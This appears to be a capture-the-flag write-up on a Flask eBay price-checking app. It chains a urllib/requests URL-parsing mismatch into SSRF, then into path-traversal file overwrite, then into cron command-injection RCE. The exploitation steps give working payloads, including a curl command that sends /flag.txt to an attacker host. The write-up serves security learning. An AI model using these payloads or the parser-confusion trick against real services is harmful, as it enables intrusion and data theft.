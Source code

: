#ssrf #arbitrary-write #rce #python #urllib
## Overview
It's a website that checks the price of an ebay item.
## Road to flag
The flag is in `/flag.txt` -> RCE/LFR
## Code review
- `command | schedule_data` merges `command` and `schedule_data` -> possible RCE
```python
@app.route('/schedule_search', methods=['POST'])
@token_required
def schedule_search(current_user):
    schedule_data = request.get_json()
    if not validate_json(schedule_data, "./schemas/scheduled_search.json"):
        return jsonify({"error":"bad request"}), 400

    command = {"cmd":f"python /app/scheduled_search.py {current_user}"} #! CMD inj
    if create_cronjob(command | schedule_data):
        return jsonify({"message":"search scheduled"}), 201
    return jsonify({"error":"something went wrong"}), 500
```

- With an SSRF the search result `itemId` would be controllable -> *arbitrary (json) file write* 
```python
@app.route('/search', methods=['POST'])
@token_required
def search(current_user):
    try:
        data = request.get_json()
        if not validate_json(data, "./schemas/search.json"):
            return jsonify({"error":"bad request"}), 400
        url = urlparse(data['url'])
        search_param = data['search_param']
        search_result = search_engines[url.hostname](url, search_param) # hostname=api.ebay.com -> ebay_research(url, search_param)
        save_dir = Path(
            "/results",
            f"{current_user}_last_search"
        )
        save_dir.mkdir(parents=True, exist_ok=True)
        if save_dir.is_dir():
            for item in save_dir.iterdir():
                if item.is_file():
                    item.unlink()
        save_file = save_dir / f"{search_result['itemId']}.json" # what if itemid is controllable
        with open(save_file, 'w') as file:
            json.dump(search_result, file)
        return jsonify(search_result), 200
    except:
        return jsonify({"error":"something went wrong"}), 500
```

- If there's a discrepancy between `base_url.netloc` and `url.hostname` SSRF would be possible
```python
def ebay_research(base_url, search_param):
    [...]
    result = api_research(f"{base_url.scheme}://{base_url.netloc}", token, search_param) # netloc != hostname !?
    return result

def api_research(base_url, access_token, search_param):
    headers = {'Authorization': f'Bearer {access_token}'}
    params = {"q": f"{search_param}","limit": 1}
    response = requests.get(base_url+"/buy/browse/v1/item_summary/search", headers=headers, params=params)
    if response.status_code == 200:
        return response.json()["itemSummaries"][0]
    else:
        print(f"Error: {response.status_code} - {response.text}")
    return {}
```

## Exploitation
1. Finding a way to SSRF
`urrlib` treats only `/?#` as valid delimiters beween the netloc and path/query/fragment
```python
def _splitnetloc(url, start=0):
    delim = len(url)   # position of end of domain part of url, default is end
    for c in '/?#':    # look for delimiters; the order is NOT important
        wdelim = url.find(c, start)        # find first of this delim
        if wdelim >= 0:                    # if found
            delim = min(delim, wdelim)     # use earliest delim position
    return url[start:delim], url[delim:]   # return (domain, rest)
```
so the hostname of `http://attacker.com\@api.ebay.com/` is `api.ebay.com`.
```python
def _hostinfo(self):
	netloc = self.netloc
	_, _, hostinfo = netloc.rpartition('@')
	_, have_open_br, bracketed = hostinfo.partition('[')
	if have_open_br:
		hostname, _, port = bracketed.partition(']')
		_, _, port = port.partition(':')
	else:
		hostname, _, port = hostinfo.partition(':')
	if not port:
		port = None
	return hostname, port
```

`requests` adds a `/` before `\`, resulting in a discrepancy between the two libraries: `http://attacker.com/\@ebay.com` -> `attacker.com`

2. SSRF -> `/app/schemas/scheduled_search.json` overwrite
Request `POST /search` with `{"url":"http://attacker.com\\@api.ebay.com/","search_param":"a"}`
Respond to the request with:
```json
{
	"itemSummaries": [
		{
		  "itemId": "../../../app/schemas/scheduled_search",
		  "$schema": "https://json-schema.org/draft/2020-12/schema",
		  "type": "object",
		  "properties": { },
		  "additionalProperties": true
		}
	]
}
```

3. RCE
Request `POST /schedule_search` with  `{"minutes":1,"cmd":"curl https://attacker -F flag=@/flag.txt"}`
